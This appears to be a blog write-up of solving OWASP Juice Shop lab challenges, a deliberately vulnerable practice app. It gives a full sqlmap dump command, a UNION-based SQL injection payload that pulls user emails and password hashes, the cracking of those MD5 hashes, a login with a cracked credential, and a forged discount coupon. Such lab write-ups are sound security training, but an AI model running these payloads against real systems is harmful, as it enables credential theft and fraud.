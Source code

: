 Looking back at the score board looks like we have an item around getting back all the users/passwords from our database, time to fire up sqlmap.  I ended up running the following command which got me back the search parameter to use:
{% highlight bash %}
sqlmap -u "https://quiet-lake-65056.herokuapp.com/rest/product/search?q=test" --level=2 -p "q" --dbms="sqlite" --dump --proxy=http://10.1.206.89:8081
{% endhighlight %}

The parameters are used as follows:

* -u = URL to attack
* -level = the level of attack to execute
* -p = parameter to try and exploit
* -dbms = the dbms we are targeting
* -dump = attempt to pull the database
* -proxy = the proxy to run requests through

Once we get through things the following comes back with the following:
{% highlight sql %}
sear')) union all select null,null,null,null,null,null,null,'qzzjq'||'QHWDqQappkdzrcmfZObclJekqtZryURacjvmYOqV'||'qaakq'-- IvXq
{% endhighlight %}
Plugging that into the browser we get a partial product grid.  Time to start figuring out how to get the users and password back.

I ended up with this for the final search query:
{% highlight sql %}
sear')) union all select id,email,password,null,null,null,null,'qzzjq'||'QHWDqQappkdzrcmfZObclJekqtZryURacjvmYOqV'||'qaakq' from users-- IvXq
{% endhighlight %}
A list of users and their hashed passwords, another challenge completed.

Now to try and figure out some of these passwords.  I put the hashes all into this site:
<https://crackstation.net/>

This site was able to crack 2 of the user passwords, admin (already known) and jim.  Now to login as jim@juice-sh.op since that's a challenge.

I used the following credentials:

User: jim@juice-sh.op
Pass: ncc-1701

Another challenge completed.

The password cracker I used identified the passwords it cracked as being md5, there is a challenge about informing the shop they're using a library/algorithm incorrectly so I gave it a shot and said the md5 implementation is weak, another challenge completed.

Another challenge is to give ourselves 80% or more off of an order.

Looking back at the coupon codes I found earlier it looks like it is time to figure out how those are encoded.  Maybe the package.json file from earlier will have a hint.  After seeing what several of the dependencies that we have listed are for, z85 appears to be a possibility for generating the password codes.  I downloaded the z85-cli and z85 modules from npm and ran a few coupon codes through the decoder, low and behold it decoded to the following format: MONYR-%% so I encoded JAN17-90 and got: n<Mibh.v3z, then checking out and using my code, another challenge completed.

